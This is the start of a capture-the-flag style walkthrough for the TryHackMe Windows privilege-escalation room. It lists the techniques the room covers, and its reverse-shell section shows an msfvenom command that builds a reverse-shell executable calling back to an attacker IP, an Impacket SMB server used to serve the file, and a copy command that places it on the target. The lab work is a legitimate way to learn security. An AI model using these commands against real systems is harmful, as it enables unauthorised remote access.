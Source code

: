 # Windows PrivEsc

URL: https://tryhackme.com/room/windows10privesc

Level: Medium

Date: 30 Jul 2023

- [Reverse shell](#reverse-shell)
- [Service Exploits - Insecure Service Permissions](#insecure-service-permissions)
- [Service Exploits - Unquoted Service Path](#unquoted-service-path)
- [Service Exploits - Weak Registry Permissions](#weak-registry-permissions)
- [Service Exploits - Insecure Service Executables](#insecure-service-executables)
- [Registry - AutoRuns](#autoruns)
- [Registry - AlwaysInstallElevated](#alwaysinstalledelevated)
- [Passwords - Registry](#passwords-registry)
- [Passwords - Saved Creds](#passwords-saved-creds)
- [Passwords - Security Account Manager (SAM)](#security-account-manager)
- [Passwords - Passing the Hash](#pass-the-hash)
- [Scheduled Tasks](#scheduled-tasks)
- [Insecure GUI Apps](#insecure-gui-apps)
- [Startup Apps](#startup-apps)
- [Token Impersonation - Rogue Potato](#rogue-potato)
- [Token Impersonation - PrintSpoofer](#printspoofer)

## Reverse shell

Generate payload with `msfvenom`:

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.100.14 LPORT=4444 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

Spawn a SMB server (share "kali"):

```bash
joshua@kaligra:~/Documents/thm/windows10privesc$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
[sudo] password for joshua:
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation
```

From target machine, copy file:

```
C:\Users\user>copy \\10.8.100.14\kali\reverse.exe c:\privesc\reverse.exe
        1 file(s) copied.
```
